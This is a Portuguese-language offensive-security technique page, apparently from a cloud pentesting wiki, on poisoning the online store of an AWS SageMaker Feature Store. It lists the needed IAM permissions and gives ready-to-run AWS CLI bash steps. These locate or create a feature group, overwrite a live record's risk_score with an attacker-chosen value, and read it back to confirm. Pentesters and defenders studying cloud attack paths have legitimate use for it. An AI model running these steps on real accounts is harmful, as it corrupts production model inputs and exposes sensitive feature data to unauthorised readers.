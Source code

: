 # SageMaker Feature Store online store poisoning

Abusar de `sagemaker:PutRecord` em um Feature Group com OnlineStore habilitado para sobrescrever valores de feature ao vivo consumidos pela inferência online. Combinado com `sagemaker:GetRecord`, um atacante pode ler features sensíveis. Isso não requer acesso a modelos ou endpoints.

## Requisitos
- Permissões: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Alvo: Feature Group com OnlineStore habilitado (tipicamente suportando inferência em tempo real)

## Passos
1) Escolha ou crie um pequeno Online Feature Group para testes
```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
ACC=$(aws sts get-caller-identity --query Account --output text)
FG=ht-fg-$ACC-$(date +%s)
ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)
aws sagemaker create-feature-group --region $REGION --feature-group-name "$FG" --record-identifier-feature-name entity_id --event-time-feature-name event_time --feature-definitions "[{\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},{\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},{\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"}]" --online-store-config "{\"EnableOnlineStore\":true}" --role-arn "$ROLE_ARN"
echo "Waiting for feature group to be in Created state..."
for i in $(seq 1 40); do
ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
echo $ST; [ "$ST" = "Created" ] && break; sleep 15
done
fi
```
2) Inserir/substituir um registro online (poison)
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)
cat > /tmp/put.json << JSON
{
"FeatureGroupName": "$FG",
"Record": [
{"FeatureName": "entity_id", "ValueAsString": "user-123"},
{"FeatureName": "event_time", "ValueAsString": "$NOW"},
{"FeatureName": "risk_score", "ValueAsString": "0.99"}
],
"TargetStores": ["OnlineStore"]
}
JSON
aws sagemaker-featurestore-runtime put-record --region $REGION --cli-input-json file:///tmp/put.json
```
3) Ler o registro para confirmar a manipulação
```bash
aws sagemaker-featurestore-runtime get-record --region $REGION --feature-group-name "$FG" --record-identifier-value-as-string user-123 --feature-name risk_score --query "Record[0].ValueAsString"
```
Esperado: risk_score retorna 0.99 (definido pelo atacante), comprovando a capacidade de alterar features online consumidas pelos modelos.

## Impact
- Ataque de integridade em tempo real: manipular features usadas por modelos de produção sem tocar em endpoints/models.
- Risco de confidencialidade: ler features sensíveis via GetRecord do OnlineStore.
